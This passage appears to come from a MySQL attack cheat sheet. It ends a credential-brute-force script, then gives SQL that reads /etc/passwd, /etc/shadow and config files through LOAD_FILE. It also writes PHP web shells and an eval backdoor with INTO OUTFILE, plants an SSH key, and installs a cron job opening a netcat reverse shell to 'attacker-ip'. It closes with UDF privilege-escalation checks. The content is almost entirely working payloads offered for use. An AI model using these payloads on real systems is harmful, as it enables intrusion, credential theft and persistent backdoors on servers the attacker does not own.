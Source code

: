 ```python
        print(f"\n[+] Valid credentials found: {username}:{password}")
    else:
        print("\n[-] No valid credentials found")
```

### Method 3: File System Access

#### Reading System Files
```sql
-- Check file reading privileges
SELECT file_priv FROM mysql.user WHERE user = 'root';

-- Read system files
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/etc/shadow');
SELECT LOAD_FILE('/etc/hosts');
SELECT LOAD_FILE('/proc/version');

-- Windows files
SELECT LOAD_FILE('C:\\Windows\\System32\\drivers\\etc\\hosts');
SELECT LOAD_FILE('C:\\Windows\\boot.ini');

-- MySQL configuration
SELECT LOAD_FILE('/etc/mysql/my.cnf');
SELECT LOAD_FILE('/etc/my.cnf');
```

#### Writing Files to System
```sql
-- Check secure_file_priv setting
SHOW VARIABLES LIKE 'secure_file_priv';

-- Write web shell (if web server present)
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
SELECT '<?php eval($_POST["cmd"]); ?>' INTO OUTFILE '/tmp/backdoor.php';

-- Write SSH keys
SELECT 'ssh-rsa AAAAB3NzaC1yc2E... your-key' INTO OUTFILE '/home/user/.ssh/authorized_keys';

-- Write cron jobs
SELECT '* * * * * root nc attacker-ip 4444 -e /bin/bash' INTO OUTFILE '/etc/cron.d/backdoor';
```

### Method 4: User Defined Functions (UDF) Privilege Escalation

#### Check UDF Support
```sql
-- Check if UDFs are supported
SELECT * FROM mysql.func;

-- Check plugin directory
SHOW VARIABLES LIKE 'plugin_dir';

-- Check for existing UDFs
SELECT name,dl FROM mysql.func WHERE type='function';
```

